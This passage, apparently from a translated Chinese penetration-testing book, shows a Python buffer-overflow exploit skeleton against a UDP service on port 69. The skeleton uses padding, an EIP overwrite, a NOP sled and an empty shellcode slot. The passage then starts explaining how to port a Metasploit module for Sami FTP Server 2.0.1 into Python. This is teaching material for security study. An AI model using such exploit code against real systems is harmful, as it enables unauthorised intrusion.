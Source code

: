 ## 利用 UDP 服务开发系统

为 UDP 服务生成漏洞非常类似于 TCP 服务。唯一的区别是您使用的是不同的通信协议。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 69
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client.sendto(exploit, (rhost, rport))
```

现在，您已经了解了您可能编写的最常见的漏洞利用类型的基础知识，让我们看看如何反转 Metasploit 模块。

# 反向 Metasploit 模块

很多时候您可能会发现某个服务是可利用的，但 Metasploit 模块不是为利用该服务版本或特定操作系统版本而构建的。这并不少见，只要回想一下之前编写的漏洞。根据可能引用的 DLL，可能不会针对特定操作系统更新模块。此外，如果操作系统的更新版本问世，并且该程序或服务仍然可行，则可能需要扩展该模块。

回想一下[第 5 章](05.html#aid-1DOR01 "Chapter 5. Exploiting Services with Python")，*使用 Python*开发服务，以及我们是如何研究内核是否易受攻击的。考虑如何进行类似的研究可能导致对潜在缓冲区溢出漏洞的引用。您可以从头开始，也可以将 Metasploit 模块反向转换为独立的 Python 脚本，并轻松测试扩展的功能。然后，您可以将更改合并到 Metasploit 模块中，甚至创建自己的模块。

我们将反转 Sami FTP 服务器 2.0.1 的 Metasploit 模块，这在概念上与实际相反。为简洁起见，我们不打算展示该漏洞的全部代码，但您可以在`/usr/share/metasploit-framework/modules/exploits/windows/ftp`的 Metasploit 安装中检查它。有关此模块的更多详细信息，请参见[http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list](http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list) 。

反转 Metasploit 模块时要做的第一件事是设置实际的漏洞利用。这将揭示利用实际服务需要设置的必要参数。如您所见，我们需要用户名、密码和相关负载。

![Reversing Metasploit modules](img/image00408.jpeg)

接下来，我们看一下实际有效载荷；我发现将其复制到记事本++之类的代码编辑器中更容易。这允许您查看通常需要的括号和轮廓。与以前编写漏洞利用的示例不同，我们将从实际的外壳代码开始，因为这将花费最多的精力。那么，看看实际 Metasploit 模块的有效负载部分。

![Reversing Metasploit modules](img/image00409.jpeg)
